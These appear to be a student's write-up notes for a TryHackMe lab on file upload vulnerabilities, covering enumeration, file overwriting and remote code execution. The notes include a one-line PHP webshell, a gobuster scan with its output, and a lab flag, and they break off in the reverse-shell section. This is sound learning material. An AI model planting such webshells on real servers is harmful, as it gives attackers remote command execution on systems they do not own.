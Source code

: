 # Upload Vulnerabilities


## Intro
- If not handled well, file uploads can result in full Remote Code Execution (RCE), webpage injection, and XSS or CSRF vulnerabilities
- If users are allowed to upload arbitrary files they can use the server to host illegal content or leak sensitive information


## General Methodology
- Enumeration is key
- Look at source code, scan with a directory bruteforcer like gobuster, intercept web requests with burpsuite, and check out browser extensions like wappalyser
- If client-side filtering is used for the upload then we can easily see the code and bypass it
- If server-side filtering is being used we need to experiment by uploading files
    - Burpsuite or OWASP Zap are helpful here


## Overwriting Existing Files
- When files are uplaoded, a range of checks should be performed to ensure that the file doesn't overwrite an already existing file
- Common practice is assigning a random name or with the data and time of uplaod added to the start or end of the original filename
- File permissions should be in place to prevent overwriting
### Overwriting the file
1. Go to the website, right click, and view page source
2. `<img src="images/mountains.jpg" alt="">` We see that the name of the image is "mountains.jpg'
3. Now we download an image, name it mountains.jpg, and upload the file
4. The flag we get is THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}


## Remote Code Execution (RCE)
- Allows us to execute code arbitratily on the web server
- Result of uploading a program written in the same language as the back-end of the website (or another language that the server understands and will execute)
    - Traditionally the language is php, but other now other back-end languages have become more common: Python Django and Javascript in Node.js
- 2 ways to achieve RCE: webshells and reverse shells
    - A fully featured reverse shell is ideal goal, but webshell may be the only option available
- General methodology: Upload a shell, activate it by nagivating to the file on the server or force the webapp to run it for us
- Simple php webshell
><?php
>    echo system($_GET["cmd"]);
>?>
### Reverse Shell
1. Use gobuster to find hidden directories `gobuster -w /usr/share/wordlists/dirb/common.txt -u http://shell.uploadvulns.thm`, /resources is probably used to store uploaded files
>root@ip-10-10-154-247:~# gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://shell.uploadvulns.thm
>===============================================================
>Gobuster v3.0.1
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
>===============================================================
>[+] Url:            http://shell.uploadvulns.thm
>[+] Threads:        10
>[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
>[+] Status codes:   200,204,301,302,307,401,403
